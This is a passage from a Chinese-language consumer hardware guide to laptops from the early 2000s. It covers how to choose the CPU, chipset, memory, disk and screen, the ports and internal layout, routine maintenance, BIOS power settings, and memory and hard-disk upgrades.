SpeedStep 系统主要由自动电源识别系统和自动电压调整系统组成，其中包括系统BIOS、终端用户接口软件、切换开关控制 ASIC 和芯片组。当笔记本电脑运行在电池优化模式时，CPU 的电压为1.35V，频率为500MHz。这时，将笔记本电脑接到交流电源，在小于 1/2000 秒的时间里，自动电源识别系统和自动电压调整系统将使 CPU 的电压自动增加到 1.6V，频率按 CPU 的不同而分别提高到 600MHz 或 650MHz。

由此不难看出，SpeedStep技术能让CPU在最高性能模式和电池优化模式之间随意切换或按用户的命令进行切换。而性能切换时，SpeedStep技术可将处理器的功率降低40%，同时仍保持80%的最高性能。

介绍到这里，不得不谈的是，有些笔记本电脑生产厂家，为了占领市场，直接将台式机的CPU应用于笔记本电脑中。这样做的初期曾在笔记本电脑市场中引起轩然大波，但实际上这种做法也不是全无可取之处。首先，这样做可以进一步降低生产成本。因为笔记本电脑CPU的技术含量较高，而且生产工艺要求更加严格，所以相同型号的笔记本电脑专用CPU的价格是台式机CPU的两倍左右，而对于某些经常使用外接电源的用户，由于对CPU耗电量要求不很严格，这就造成笔记本电脑专用CPU不能物尽其用，这就给台式机CPU进入笔记本电脑内部留下机会。其次，这样做可以提高笔记本电脑性能。由于笔记本电脑CPU发展一直落后于台式机CPU，也就是说同一种型号的CPU一般总是先出现在台式机上然后才有笔记本电脑专用的，所以如果将最先进的台式机CPU直接使用在笔记本电脑中，将会使笔记本电脑的性能得到极大的提升。另外，使用台式机CPU的笔记本电脑更有利于以后的升级。由于笔记本电脑专用的CPU一般是直接焊在主板上的，所以几乎无法升级，但是如果采用的是台式机CPU，则一般是以零插拔力插槽(Socket)的形式固定在主板上的，如果用户较为精通笔记本电脑，则可在以后直接购买一款更高工作频率的台式机CPU进行升级。但是相对于笔记本电脑专用CPU来说，使用台式机CPU的缺点也很突出。由于台式机CPU较高的功耗，使得笔记本电脑的电池待机时间明显减少或需要厂家使用能提供更大能量的笔记本电脑内置电池。另外，在笔记本电脑中使用了发热量较高的台式机CPU，如果不经过特殊处理，很难稳定运行，所以为了稳定性和安全性的考虑，使用台式机CPU的笔记本电脑一般都是体积较大的全内置机型。一些名牌大厂如华硕、明基等都推出过使用台式机CPU的笔记本电脑，一方面这些厂家将CPU精挑细选，找出发热量较小的台式机CPU供笔记本电脑使用，另一方面这些厂家也在努力提高散热技术，所以这些采用台式机CPU的笔记本电脑的技术也相当成熟，由于其稳定性和断电连续工作时间也基本能够满足一些用户的需求，所以这种笔记本电脑的市场接受程度也在逐渐提高。在这里，笔者建议如果用户想要购买一款使用台式机CPU的笔记本电脑，最好使用一些名牌大厂的产品，因为这些名牌大厂基于其雄厚的技术研发实力，会对这些笔记本电脑进行一些特殊的处理，以保证用户使用时的稳定性。

由于现在市场比较混乱，所以一些小厂产品会将台式机CPU冒充笔记本电脑专用CPU的情况，所以用户在购买时，一定要用Intel的专用程序Intel Processor Frequency ID Utility测试一下CPU的类型以及是否支持SpeedStep技术。如果用户决定购买的是一款使用台式机CPU的笔记本电脑，则要进行较长时间的运行，以检验笔记本电脑的稳定性。

### 2. 主板芯片组

选择完CPU后就要确定主板使用什么型号的南北桥芯片组了。一般来说，针对不同系列的CPU，Intel、VIA、SiS等主板芯片组生产厂家都会推出一套或几套移动版的芯片组。Intel芯片组工作稳定、兼容性好、综合性能高，但是其价格也是最高的；VIA芯片组的特点是性能较高，价格低廉，但是稳定性和兼容性较差，通常用在重视性价比的笔记本电脑中；SiS芯片组的特点是整合度高，一般集成有一个性能还算不错的显示芯片，而且价格低廉、发热量也不大，所以一般被应用于一些中低端的全外挂或光驱软驱互换的机型中。

### 3. 图形处理芯片

主板上另一个重要的部分就是图形处理芯片。如果用户只是用笔记本电脑进行一些文字处理或用于浏览网络以及玩一些简单的游戏和看电影，则使用主板芯片组集成的Intel 75X系列、SiS 3XX系列、VIA Savage系列显示核心就足够了。但是如果用户使用笔记本电脑进行大量的3D制图或玩一些3D游戏，就会对显示芯片有更高的要求，这时一般可以采用不集成在主板上的图形子卡，这些图形子卡所采用的显示芯片一般有nVIDIA的GeForce 2 Go系列和ATI的Mobile Radeon系列，这些显示芯片具有强大的3D图形加速能力，甚至可以接近或达到中档台式机的水平。

### 4. 内存

确定好CPU和主板后，就可以确定内存参数了。当今主流笔记本电脑的专用内存一般有两种，SDRAM和DDR SDRAM，如图3、图4所示。

DDR SDRAM由于采用DDR技术，可在时钟周期的上沿和下沿同时传送数据，因此理论带宽是SDRAM的两倍。一般Pentium 4的CPU配套使用DDR SDRAM内存，而其他CPU由于受到主板芯片技术以及成本的限制仍旧采用SDRAM。对于笔记本电脑来说，大部分是靠分享系统内存来作为显存的，所以提高内存总线的带宽对笔记本电脑的性能影响也是较大的，所以建议用户在其他配置和价格差别不大时尽量选择笔记本电脑专用的DDR SDRAM内存。

至于内存容量方面，目前中低端笔记本电脑仍旧配备128MB的内存，而中高端笔记本电脑一般配备有256MB的内存，甚至有些高端笔记本电脑将内存容量配到512MB。虽然在使用中128MB的内存容量足以满足日常工作学习的需要，但是笔者建议用户尽量购买256MB内存的笔记本电脑，或者让经销商将内存直接升级为256MB。因为一些大型应用程序例如Microsoft Office XP和Adobe Photoshop 7.0等，需要占据大量的内存空间，而系统物理内存如果不够，则会使用部分磁盘空间作虚拟内存使用，这将大大降低系统性能。另外现在主流的操作系统Microsoft Windows XP本身也要占据大量的内存空间。内存从128MB到256MB对系统速度和大型软件运行速度的提升有着明显的影响，而现在市场上笔记本电脑的内存价格不是很高，所以256MB的容量才应该是笔记本电脑的标准配置，无论如何，笔记本电脑的内存容量不应小于128MB。

### 5. 硬盘

笔记本电脑硬盘的容量自然是越大越好，目前主流笔记本电脑的硬盘容量只能在20GB~80GB之间。由于笔记本电脑一般只支持一个内置式硬盘，无法像台式机那样扩充容量，所以购买时最好一步到位。笔者建议中低端笔记本电脑最好配备20GB左右的硬盘，而中高端笔记本最好配备有40GB的硬盘。选购笔记本电脑硬盘时最好当场将硬盘做一下完整的磁盘检查，以防购买到有质量问题的硬盘。

### 6. 显示屏

显示屏的选择也是选购笔记本电脑的一个重点。

目前笔记本电脑使用的液晶显示屏尺寸有12.1英寸、13.3英寸、14.1英寸和15英寸等几种。由于笔记本电脑显示屏标称尺寸就是其液晶屏可显示部分对角线长度，而台式机CRT显示器所标称的尺寸为显像管对角线长度，并且笔记本显示屏与用户眼睛的距离相对较近些，所以笔记本显示屏尺寸的视觉效果分别对应着台式机CRT显示器的14英寸、15英寸、17英寸和19英寸。如果用户选用的是一款全外挂型的笔记本电脑，处于节省体积考虑，可以选择一款高分辨率的12.1英寸的显示屏；如果用户选用的是半内置型或者全内置型笔记本电脑，由于自身体积较大，所以为了达到更好的视觉效果，用户至少要选择一款13.3英寸的显示屏。这里笔者推荐使用14.1英寸的显示屏，这样可以使工作、学习更加舒适。由于液晶显示器没有CRT显示器所要面对的频闪问题，所以只要使用60Hz的刷新率就足够了。至于分辨率，一般是根据显示屏的尺寸而固定不变的，以上各个尺寸所对应的分辨率分别为800×600、1024×768、1280×1024。如果笔记本电脑使用非标准分辨率时，可能会有两种情况：一是使用现有面积和点阵去模拟另一种分辨率；二是使用部分面积去实现另一种分辨率。前一种情况会造成显示效果模糊，后一种情况会造成显示屏的浪费。

笔记本电脑的液晶显示屏除了以上这些参数以外，还有一些往往容易被用户忽略的参数。例如显示屏的亮度、对比度、能耗、发热量、节电模式等等，这些都需要用户在购买时耐心对比，反复挑选才行。对于液晶显示屏来说还有一个重要的性能指标就是坏点数，由于液晶显示屏采用有源矩阵的结构，这就造成有些地方会出现亮点或暗点，就是说某些点一直处于发光状态或一直处于不发光状态。别看坏点不大，可是使用中始终会让用户觉得有些白玉微瑕，所以购买时的挑选就尤为重要。其实检测坏点并不难，只要有耐心就行，下面介绍一个最简单的方法。将桌面背景的颜色分别设置成为白色、黑色、红色、绿色和蓝色，然后隐藏桌面所有图标和状态栏，然后对着屏幕每种颜色分别将亮度调到最大和最小并仔细观察每种颜色，如果有坏点，相信逃不过用户的眼睛。但是要生产一块没有坏点的液晶板是很难的事情，所以对于一款中低档笔记本电脑，如果屏幕四周出现一两个坏点，还是属于正常范围的。

### 7. 其它配件

除了以上这些主要部件以外，其他配件的选择也很重要，例如：光驱的选择、电池的选择、网络功能的选择、音效系统的选择、扩充性的选择等等。下面分别作简要介绍。

- (1) 笔记本电脑的光驱传统上分CD-ROM和DVD-ROM两种，其中DVD-ROM既可以用来读取DVD盘又可以用来读取CD盘，但是由于其成本相对较高，所以一般只应用于某些中高端配置中，而CD-ROM仍然是笔记本电脑的标准配置。现在有些较新的高端配置上开始出现笔记本用刻录机和笔记本用COMBO驱动器等。其中笔记本型刻录机既可以读取CD盘又可以在CD-R盘上实现写入功能，而笔记本用COMBO驱动器不但可以实现刻录机的功能，还能够读取DVD盘。如果资金允许，也可以考虑使用笔记本用刻录机或笔记本用COMBO驱动器等。
- (2) 现阶段笔记本电脑中使用的电池主要有镍氢电池和锂离子电池两种。镍氢电池的价格便宜，但存在记忆效应，而且在相同容量下重量要比锂离子电池大一些。现在推出的一些智能镍氢电池虽然有所进步，但是仍然和锂电池有一定差距。锂离子电池拥有无记忆效应、重量轻、供电时间长等优点，已成为笔记本电脑电池的标准配置。现阶段笔记本电脑使用的锂离子电池由于厂商的不同，在供电时间上也存在一定差距，用户在选购过程中应当注意不同品牌的区别，并作一下横向对比。另外，笔记本电池的性能指标除了厂商标称的供电时间外，还要注意其容量。电池的容量一般以mAh(毫安小时)为单位，一般来说标称的容量在2000mAh～4000mAh之间。
- (3) 目前的主流笔记本电脑一般都具备网络功能，集成有调制解调器接口和LAN网络接口。如果用户选购的笔记本电脑不具备这些接口，以后如果想使用这些功能时，就要另外去购买扩充卡了。
- (4) 一些用户在选购笔记本电脑时往往忽略声卡和音响系统，如今的低端笔记本电脑大都是AC97软声卡，配以廉价的扬声器，音效不会很好。但是一些中高档笔记本电脑则会使用Creative 5880、ESS Maestro 2E、CMI 8738等硬声卡芯片，再配合以微型3D立体声音箱，效果自然出色。如图5所示，就是Compaq Presario 900 1500+ 笔记本所采用的JBL Pro喇叭。和显示屏效果一样，音响效果的好坏也要用户购买时注意对比才能判断。
- (5) 笔记本的扩展性也很重要，一般主流笔记本电脑都应该具有一到两个PCMCIA接口、一到两个USB接口、一个外接显示器接口、一个S-Video接口、一个PS/2鼠标接口以及并行接口串行接口等。在一些较高档的笔记本电脑中还用具备IEEE-1394接口和USB 2.0接口等，以满足用户对扩展性能的要求。

## (四) 移动PC

移动PC是介于笔记本电脑和台式机之间的产品，有着和笔记本电脑类似的外观，如图6所示，就是精英移动PC i-Buddie4 A928。

传统笔记本电脑高昂的价格让许多电脑爱好者望而却步，而移动PC的出现则填补了这一空白。但是移动PC也有其自身的缺点，例如只能在有电源的地方使用；内部结构过于紧凑，散热问题如果解决不好易造成系统不稳定等。但移动PC所带来的统一标准却指明了笔记本电脑未来的发展方向。

### 三、笔记本电脑结构剖析

### (一) 笔记本外部接口

笔记本电脑从外观上可以分为主机和显示器两个部分，显示器一般为TFT型液晶显示器，与主机折叠在一起，结构比较简单。主机部分上部覆盖有键盘和触控板，内部部件有CPU、主板、内存、硬盘、显示适配器、网络适配器、电池、光驱、软驱等。

下面笔者将以三星P10笔记本电脑为例，介绍一下笔记本电脑的外部结构以及各种接口。

图7就是三星P10笔记本电脑正面打开后的视图，整个笔记本电脑分为两个部分，上半部分是液晶显示器，下半部分为笔记本电脑的主机。键盘镶嵌于笔记本电脑主机前半部分，键盘上方两侧是多媒体音箱，由于受笔记本电脑内部空间过小的限制，喇叭的音质和音量只能满足用户最基本的需要。键盘上方中间是一排指示灯，用来显示笔记本电脑的工作状态，指示灯左边是上网快捷键，右边是笔记本电脑的电源开关。键盘的下方是触控屏，用户通过手指在触控屏上的滑移和敲击来代替鼠标的功能。这款笔记本的触控屏采用三键式设计，左右两键的功能与鼠标左右键类似，中间的键可以用来翻阅网页。

触控屏下方是三星笔记本电脑所特有的CD播放器，包括音量加减、停止、播放、快进、后退等按钮，以及用来显示播放信息的小液晶屏。这个控制器不但开机时可以用来控制CD播放，而且关机后仍可通过这几个按钮的操作来听CD。

如图8所示，是三星P10笔记本电脑的右侧视图，上面是闭合后的液晶显示屏，下面是主机部分。主机部分右侧是超薄的DVD驱动器。由于这款电脑采用光驱软驱互换（下文将有详细介绍），因此DVD驱动器可被替换为软盘驱动器。

如图9所示，是三星P10笔记本电脑背面的视图，这部分主要是笔记本电脑的输入输出接口部分，从左至右依次为PS/2鼠标接口、音箱耳机接口、IEEE-1394接口、S端子接口、视频输出接口、并行接口、串行接口、外接显示器接口和两个USB 1.1接口。

如图10所示，是三星P10笔记本电脑底部的视图，左上方是光软互换托盘，托盘上面有一个安全扣，互换光驱软驱时，应该将其置于打开状态。右上方是CPU散热孔，使用时注意一定不要将其覆盖。左下方是内置式电池，电池不但体积较小，而且上面还有电量检测指示灯，按一下顶端的按钮就可以通过指示灯看到电池还剩多少电。在底座的右下方是内存扩展匣，打开后就可以方便地更换内存了。

## (二) 笔记本内部结构

以上介绍完了笔记本电脑的外部接口，下面，笔者将和读者一起来看看笔记本电脑的内部结构。

图11所示，是Winbook J4笔记本电脑的底部。一般来说，解剖笔记本电脑就要从这里入手。笔记本电脑中，比较容易拆卸的是内存、硬盘、光驱、电池等部件。下面介绍一下这些部件的拆卸方法。

图11中，B部分就是内存舱，用小螺丝刀轻轻旋开B部分右侧的小螺丝，并将舱盖轻轻打开，就可以看到笔记本电脑的内存部分了。笔记本电脑的内存舱一般有两种，这款笔记本电脑的内存舱如图12所示，只有一个扩展插槽，但是在生产笔记本电脑时，厂家已经在笔记本电脑主板上整合了128MB的内存，虽然这样做将会使笔记本电脑的扩展性受到一定影响，但是却最大程度保证了笔记本电脑的高集成度和稳定性；另一种笔记本电脑的内存舱（如图13），有两个内存插槽组成，其中一个插有内存，另一个可以用来扩展升级。

图11中，A部分是硬盘舱，旋开右边两个螺丝后的硬盘舱（如图14），内部便是笔记本电脑的硬盘。另外，还有部分笔记本电脑的硬盘是抽取式的，开口在笔记本电脑的侧面。

打开图11中的保护锁D，就可以将光驱C取出，笔记本电脑一般使用超薄型的光驱（如图15）。常见的光驱类型有CD-ROM、DVD-ROM、CD-RW、COMBO等，由于都是标准接口，所以一般可以通用。

打开保护锁F，可将笔记本电脑的内置电源取下（如图16）。一般来说，当今主流笔记本电脑都使用锂离子电池作为内置式电源；为了适应笔记本电脑的整体外观，不同的笔记本内置电池都有不同的造型。

将笔记本电脑彻底打开以后，就可以看到笔记本电脑的主板、CPU等核心设备了。如图17所示，这是一款采用 Radeon IGP 320M 北桥芯片和 ALi 1535+ 南桥芯片，支持 Mobile Athlon XP CPU 的主板，主板芯片组见图18、图19所示。在图17中，中间白色散热片所覆盖的就是主板的北桥芯片，北桥芯片左上方是 Socket 462的 CPU 插座，CPU 插座下面是南桥芯片。主板的上方是各种外置插口，下方是各种内置插口，用来连接硬盘、键盘、触控板等。

这款笔记本电脑使用的是 Mobile Athlon XP 1500+ CPU，这款处理器的外观如图20、图21所示，和台式机区别不大，不过其拥有 PowerNow! 节电技术和可承受更高的工作温度。

### 四、笔记本电脑日常维护及优化

### (一) 笔记本的移动和放置

笔记本电脑最大的特点就是可移动性，那么是不是用户就可以随便拿放笔记本了呢？当然不是！笔记本电脑在移动时需要注意的事项很多。最重要的是，移动笔记本电脑时应保证其在关闭状态。笔记本电脑内部的硬盘、光驱、散热风扇等有很多机械部件，这些部件在笔记本电脑开启时经常高速运转，如果这时移动笔记本电脑，这些部件内部的碟片、扇头等极易与周围环境发生碰撞，造成严重的物理损伤，所以建议用户在使用笔记本电脑时尽量保持其静止，如果打开电源后不得不移动，那么也应该做到轻拿轻放。即使笔记本电脑在关闭状态时，也应该将其放到专用的电脑包中，电脑包内部的衬垫可以避免笔记本电脑遭受剧烈的震动。

### (二) 笔记本的散热

我们知道，随着 CPU 运行频率的不断提高，以及其它可控制芯片功能的日益增强，这些芯片将产生极大的热量。而随着这些芯片温度的上升，硅的物理特性将发生变化，就会出现频繁死机的现象。对于台式机来说，较大的内部空间可以使它采用较大的散热风扇以产生对流空气来降低电脑内部的热量。但笔记本电脑就不同了，狭小的内部空间使得

### (三) 笔记本的防潮

除了温度外，环境的湿度也是重要因素之一。对于长期不用的笔记本电脑，应定期通电一定时间，使其排放出内部的湿气。另外，在室内外温差较大时，如将笔记本电脑从温度很低的室外移入室内，其表面和内部会产生雾水（原理和冬天玻璃窗会结雾一样），可在笔记本电脑的外边紧密包裹一层防静电塑料袋，移动之后等其温度与室温相同，再将塑料袋打开，这时雾气都结在塑料袋的外面了。如果潮气已经进入笔记本电脑内部，就必须将其放到干燥、温暖、通风的地方，以便让其内部的水分充分蒸发掉。对含潮气的笔记本电脑通电进行使用，极易造成内部电路板遭受腐蚀，会引起永久性的物理损坏。

### (四) 笔记本的防磁

另外，一个经常被用户所忽视的问题就是磁化。虽然笔记本电脑使用了先进的电子电路设计和制造工艺，但是仍不能完全避免外界的电磁干扰。日常工作中最常见的干扰源就是手机了，所以不要将手机放在正在运行的笔记本电脑上，尤其是键盘位置。另外，也不要把磁铁、磁盘、信用卡等有磁性的东西放到笔记本电脑上，以防笔记本电脑被磁化。

### (五) 笔记本日常维护须知

#### 1. 液晶显示屏

一般笔记本电脑的液晶显示屏外部只覆盖有一薄层聚纤维树脂保护层，其硬度远小于台式机 CRT 显示器所使用的材料，所以笔记本电脑显示屏极易被划伤。使用时，一定要保证不用硬物（例如手指甲、笔尖、鼠标等）直接接触笔记本的显示屏。另外需要强调的是，一定不要在笔记本电脑键盘上放置其他杂物，以免合上笔记本时将显示屏划伤。

要擦拭显示屏，可以用眼镜布轻轻擦拭一下。如果是显示屏上留有较大的污迹，则可用沾有少许水的小团脱脂棉仔细擦拭。切忌将水直接洒到显示屏表面，因为水进入显示屏，会引起内部电路短路或腐蚀。

另外，避免液晶显示器连续长时间工作也很重要。在不使用笔记本电脑时，一定要关闭显示屏（可在高级电源管理选项中将其休眠时间设置为较短时间）或者降低其显示亮度，否则时间长了会导致显示屏老化，直接反映就是显示器的色泽不够鲜艳或是亮度、对比度的降低。另外，如果长时间连续显示一种固定的画面，也可能导致某些液晶像素过热，从而造成内部损坏。

最后需要强调的是，不要随意拆卸液晶显示器！液晶显示器即使在关闭很长时间后，背景照明组件中的 CFL 换流器仍然可能带有大约 1kV 的高压电，这种高压电能够导致严重的人身伤害。所以，需要维修或者更新笔记本液晶显示屏时，请找专业人士帮忙。

#### 2. 触控板

触控板是笔记本电脑中的一种输入设备（如图 22），一般可以起到鼠标的作用，很多笔记本电脑都用它来代替鼠标。触控板的优点是节约空间，但是由于很多用户不善于保养，造成很多触控板过早失灵。触控板是一个压力传感器，通过感受压力的大小和位置来确定如何移动鼠标指针，所以用户使用时一定要对它的面板多加保护，不要用很大的力量去压它，只要让鼠标箭头稳定移动就可以了，长时间过大的压力可以造成传感器失灵。还有，不要使用尖锐的物体去划触控板，例如铅笔尖、指甲等，在上面移动时会留下一道浅浅的痕迹，积少成多后，触控板就成了“大花脸”。触控板的正确使用方法是，用干净的手指或笔记本电脑提供的专用触控笔，在上面轻轻地滑动以拖动鼠标箭头。如果用户经常使用笔记本电脑，建议购买一个较小的 USB 接口鼠标，从而在一定程度上代替触控板，以减轻触控板的负担。总之，一定要好好保养触控板，毕竟台式机的鼠标坏了很容易就换一个，但是笔记本电脑的触控板换起来就要麻烦多了。

### 硬件沙龙 Hardware Salon

#### 3. 硬盘

与台式机硬盘不同的是，笔记本电脑硬盘磁头和碟片的体积更小，数据存储密度更大，而且由于碟片的转速高达 4200RPM 甚至 5400RPM，所以轻微的震动也可能会造成磁头对碟片的物理划伤，从而出现不可修复的坏道。这就要求用户在使用笔记本电脑时必须保证笔记本不遭受任何过大的震动，例如不能在不平稳行驶的车船上使用笔记本电脑，在笔记本电脑处于开启状态时不要随意移动笔记本电脑。当笔记本电脑出现非正常关机时，应该重新将电脑开机，并正常关机，使硬盘的磁头复位，以保证不划伤盘片。

笔记本电脑的硬盘与台式机硬盘的另一重要区别在于笔记本的硬盘一般速度较慢，例如现在主流笔记本电脑硬盘的碟片转速一般为 4200RPM，只有在少数高端笔记本电脑中才会采用 5400RPM 的硬盘，而台式机硬盘碟片的转速早就达到 7200RPM 了。另外，笔记本电脑硬盘的平均寻道时间为 8ms～13ms，也高于台式机的 5ms～9ms。这就要求用户必须对笔记本电脑的硬盘进行一些优化，以提高硬盘的运行速度。建议用户定期整理硬盘中的文件碎片；清除一些没用的垃圾文件，以增大硬盘的可利用空间，并提高硬盘的读写速度。

#### 4. 光驱

光驱使用激光头等光学部件，对灰尘是很敏感的。但是由于笔记本电脑的光驱使用的是微型化结构，对灰尘的抵抗能力较差。用户不应使用有灰尘的盘片，尽量避免让光驱托盘长时间暴露在外面。但即使这样，光驱在使用一段时间后光驱头仍然会落上一些灰尘，这就需要用户定期使用光驱清洁盘进行清洁。

光驱也是一个机械结构比较多的部件，使用时要防止其机械部分损坏，首先要注意保持笔记本电脑的水平放置，否则，光盘在高速旋转的过程中会导致重心不平衡，其后果轻则会使读盘能力下降，重则可能损坏激光头。其次，要养成关机前及时取出光盘的习惯。由于笔记本电脑要被经常移动，所以如果光驱内如有光盘则可能会因震动损伤激光头。此外，当光驱正在读盘时，应避免按弹出按钮弹出光盘。因为此时光盘正在高速旋转，特别是在光盘内缘读取数据时转速更快。若强制弹出光盘，光驱会在简单延迟后弹出，弹出光盘时光盘会与托盘发生磨擦，容易划伤激光头。

最后，建议用户使用 Virtual Driver 这样的软件，将光盘的内容复制到电脑的硬盘上。这些措施都可以减少笔记本电脑光驱的损耗。

#### 5. 电池

笔记本电脑最早使用的是镍氢电池，这种电池具有较好的性价比和较大的功率，但电池持续放电时间短，所以很快被锂离子电池替代。锂离子电池储能密度大，可随时充电并且持续放电时间稍长。由于电池的使用时间较短，所以只有正确的使用方式才会让笔记本电池持续更长的放电时间。下面，笔者介绍一下如何对笔记本电脑进行设置。在设置之前，必须保证笔记本电脑使用的是 Windows 98 以上的操作系统，这样才能提供更多的电源管理选项。

进入操作系统后，在桌面上单击鼠标右键，在弹出的菜单中选择“属性” → “屏幕保护程序” → “电源管理设置” → “电源”，弹出对话框如图23所示，将电源使用方案设定为“便携型/膝上型”，然后将电源使用方案设定为2分钟后关闭监视器，20分钟后关闭硬盘，5分钟之后进入系统待机状态，25分钟之后进入系统休眠状态。这样，笔记本电脑就会以最省电的方式进行工作。

#### 6. BIOS中的电源设置

除了操作系统可以设置笔记本电脑的工作状态外，主板BIOS中有关电源管理的设置也很重要。如图24所示，是笔记本电脑BIOS中有关电源管理设置典型的菜单，下面分别介绍一下有关选项。

- (1) Power Savings 这是电源管理的总开关，所有的电源管理模式由此来设置。可供选择的有 User Define（由用户设定）；Disable（禁用）；Max saving（最大省电模式）；Min saving（最小省电模式）。建议，作为笔记本电脑，对于一般用户，如果经常只使用其内置电池，应将此选项设定为 Max saving 最大省电模式。
- (2) Suspend Mode 此处用来设置待机模式，此选项中的两个设置分别为 Save to RAM 和 Save to Disk，前者是在进入待机模式时只留下内存还依然通电，如此在恢复时可以以极快的速度恢复成进入待机前的状态，后者则是在进入待机模式时将数据都写入磁盘驱动器，如此可以说是最为省电的方式，但是恢复所需的时间较长。本选项可根据用户喜好自行设定。
- (3) Standby Timeout 在 Power Savings 选项设置为 User 时，此选项才能设置，此处可以设置进入待机状态的时间，以分钟为单位，用户可依照自己的需要设置。
- (4) Auto Suspend Timeout 在 Power Savings 选项设置为 User 时，此选项才能设置，而且必须在 APM 已经被安装的情况下才能适用，用来设置计算机进入暂停模式的时间；设置的方式也与前者相同。
- (5) Hard Disk Timeout 在 Power Savings 选项设置为 User 时，此选项才能设置，用来选择在硬盘停止运转后经过多少时间进入省电模式，设置方式也与前者相同。
- (6) Video Timeout 在 Power Savings 选项设置为 User 时，此选项才能设置，用来设置屏幕被关闭之后经过多久时间进入待机模式，设置方式与前者相同。
- (7) Resume On Modem Ring 该项可设置在进入暂停模式后，是否能通过调制解调器测得电话铃响而恢复到正常的模式，可选的设置有 On 打开以及 Off 关闭此功能。
- (8) Beep On Battery Low 此选项用来设置当笔记本电脑的电池只剩下低电量时会发出警告声，可以选择的设置有 Enable 打开以及 Disable 关闭此功能。

笔记本电池除了需要正确设置外，使用的方法也很重要。笔记本电脑电池每次使用时要尽量用光后再充电，直到充满电后再继续使用电池，因为电池的寿命主要是以充放电的次数计算的。

### 五、笔记本电脑的更新与升级

当今各种操作系统、应用软件、游戏等都在不断发展，对电脑配置的要求也越来越高，这对于不能升级的笔记本来说是一大遗憾。其实，笔记本电脑的升级空间虽然有限，但仍可以通过一些方法来改善其整体性能。下面笔者将要介绍几种常见的升级办法。

### (一) 内存

如果能够找出一种最方便提高系统性能的升级方法，就应该算是升级系统内存了。随着各种软件的不断升级，电脑中的内存占有量也越来越高。现在如果使用Windows 98操作系统，并且打开几个应用软件，内存使用量一般在100MB左右；如果使用的是Windows 2000或Windows Me操作系统，内存使用量可高达200MB左右。如果系统没有足够的物理内存，则需要用硬盘空间来虚拟内存。内存总线时钟频率为ns数量级，而硬盘寻道时间的影响，大概为ms数量级，很显然，这两者的运行速度相差较大。

一般来说，笔记本电脑的内存都是可以扩充的。首先，要确定笔记本电脑内存的架构。在98年之前的Pentium级CPU的笔记本电脑可能使用EDO RAM；两三年前购买的Pentium II或者Pentium III级别的笔记本电脑使用的大多是144线的SDRAM；而现阶段，高端的使用 Pentium IV CPU 的笔记本电脑有一部分使用的是 DDR SDRAM。这几种内存在接口上各不相同，所以用户在考虑升级之前一定要辨清是何种接口。

下面就要确定升级到多大容量了。一般来说，如果用户的笔记本电脑使用的是 Pentium 级的 CPU，则一般使用的是内存占用较少的 Windows 9x 操作系统。这时，只要在原有的 32MB 或 64MB 的基础上再添置一条 64MB 的内存也就足够了。如果用户的 CPU 在 Pentium II 300MHz 以上，则内存容量至少应为 128MB。对于最新的使用高主频 Pentium III 或者 Pentium IV CPU 的笔记本电脑，则内存最好为 256MB，这样可以更加流畅地使用 Windows XP 操作系统。

选好需要升级的容量，下一步就是内存的品牌了。现在市场常见的笔记本内存品牌主要有三星 (Samsung)、现代 (HY)、胜创 (KingMax)、骏一 (Kinghorse)、金士顿 (Kingston) 等多种品牌。笔者推荐使用胜创 (KingMax) 内存，除了因为其具有较高的性价比外，还采用了发热量极小的 TinyBGA 封装形式，可以有效解决第二条内存发热量过大的问题。但是由于封装形式的不同，胜创 (KingMax) 内存也存在着一些兼容性问题。如果用户的笔记本电脑和胜创 (KingMax) 内存不兼容，则建议是用兼容性较好的金士顿 (Kingston) 内存。另外还要注意的是，有些笔记本电脑，例如 SONY 的某些超薄系列，使用的是专用的内存，所以要到其相应的专卖店购买。

笔记本的内存升级起来比较简单，下面以 IBM 390X 笔记本电脑为例介绍一下具体的升级方法。

将这款笔记本电脑翻转过来，放在桌上，右上角有一块长方形的盖板，里面就是扩充槽。先将盖板的螺丝拧开，扩展槽就显露出来（如图 25）。IBM 提供了两个内存扩展槽，由于主板上没有集成内存，所以已经预先插了一条 64MB 内存在里面了。将需要扩充的内存的凹口对准插槽，并慢慢地斜滑入内存槽内。

确定插紧之后，用两个指头均匀用力将内存向下压，直至听到“咔嗒”声确保两边的卡夹完全卡住内存，然后盖上内存舱盖，上好螺丝，就算安装成功了。还有一点需要注意的是，在进行这步操作之前先触摸一下金属物体，将手上的静电放掉，以免伤害到那些脆弱的电子元件。

要卸下内存来也很容易，用指甲小心地将内存插槽内部的金属卡舌掰开，内存就会弹起，然后取出即可。最后再盖上盖板，拧上螺丝（如图 26）。

笔记本电脑的高集成度特性，使得其不像台式机那样可以任选内存品牌，这就对新增内存兼容性提出了更高的要求。所以升级完成以后，一定要打开电脑，在系统中检查一下。如果看到内存已经变成 192MB (64MB+128MB)，就说明新增的内存已经被认可了。再运行一些内存占用较多的程序，如 Office、Photoshop 等，一切工作正常，就算内存升级成功。

### (二) 硬盘

除内存外，笔记本电脑中另一个较容易升级的部件就是硬盘了。由于笔记本电脑只支持两个 IDE 设备，其中一个是光驱，所以笔记本电脑不能像台式机那样添加一块硬盘。笔记本电脑升级硬盘的途径有三种：更换原来的硬盘；使用 USB 接口的外置硬盘；或者使用 PCMCIA 接口的硬盘。第一种方法比较彻底，而且成本最低，但是替换下来的硬盘就被闲置了；第二种方法虽然没有造成资源闲置，但是 USB 接口的外置硬盘数据传输速度太慢，而且其本身价格也比较昂贵；第三种方法占据了笔记本电脑中宝贵的 PCMCIA 接口。所以具体如何升级，还要根据用户的实际情况来进行分析。

由于生产笔记本电脑硬盘需要极高的技术工艺，所以目前市场上可以见到的笔记本电脑硬盘只有 IBM 和东芝两个厂家的产品。这两家的产品质量和速度都相近，所以用户只要考虑升级到多大的容量就行了。这里笔者建议用户如果想升级硬盘系统，就尽量购买容量大一些的硬盘，一个原因是硬盘的容量越高，单大容量硬盘的价格就越低；另外，由于笔记本电脑只能够使用一个硬盘，所以这样可以减少升级频率。也就是说，用户在资金不是很困难的情况下要尽量选用30GB或40GB容量的硬盘，而尽量不要购买10GB甚至更低容量的硬盘。

笔记本硬盘一般是抽取式放置。如图27所示，画箭头的部分就是硬盘舱。用螺丝刀小心旋开舱盖螺丝后，轻轻打开舱盖，就可以看到如图28所示的笔记本电脑硬盘了。轻轻将硬盘取出，然后换上新的就行了。需要提醒用户的是，更换硬盘前，一定要做好原有数据的备份，免得造成数据丢失。如果用户还想利用更换下来的硬盘，可以购买一款USB接口的外置2.5英寸的硬盘盒，这样可以减少资源的浪费。


## （三）其他配件

除内存和硬盘外，笔记本电脑中还有很多配件可以升级，例如CPU、网络系统、鼠标、电池、显示系统等。

### 1.CPU

